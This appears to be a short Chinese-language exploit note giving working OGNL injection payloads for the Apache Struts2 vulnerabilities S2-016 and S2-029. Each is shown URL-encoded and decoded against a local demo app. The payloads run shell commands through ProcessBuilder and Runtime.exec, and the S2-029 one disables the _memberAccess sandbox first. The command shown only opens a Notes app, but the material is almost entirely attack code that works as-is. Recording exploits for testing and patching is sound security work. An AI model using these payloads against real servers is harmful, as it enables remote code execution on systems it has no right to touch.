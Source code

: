 
## s2-016

### payload
```properties
# 解码前
http://www.glassy.com/Struts2Demo_war_exploded/hello.action?redirect:%24%7b%23a%3d(new+java.lang.ProcessBuilder(new+java.lang.String%5b%5d%7b%27%2fbin%2fbash%27%2c+%27-c%27%2c%27open+%2fApplications%2fNotes.app%2f%27%7d)).start()%7d

# 解码后
http://www.glassy.com/Struts2Demo_war_exploded/hello.action?redirect:${#a=(new+java.lang.ProcessBuilder(new+java.lang.String[]{'/bin/bash',+'-c','open+/Applications/Notes.app/'})).start()}
```

### injection
```js
${#a=(new+java.lang.ProcessBuilder(new+java.lang.String[]{'/bin/bash',+'-c','open+/Applications/Notes.app/'})).start()}
```

### result
* 使用 `action:`, `redirect:`, `redirectAction:` 作为前缀参数，后面会解析表达式
* 长亭的检测结果与注入漏洞成因无关


## s2-029

### payload
```properties
# 解码前
http://www.glassy.com/Struts2Demo_war_exploded/s2029.action?message=(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('open%20/Applications/Notes.app/').getInputStream()))

# 解码后
http://www.glassy.com/Struts2Demo_war_exploded/s2029.action?message=(#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('open /Applications/Notes.app/').getInputStream()))
```

### injection
```js
@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('open /Applications/Notes.app/').getInputStream())
```
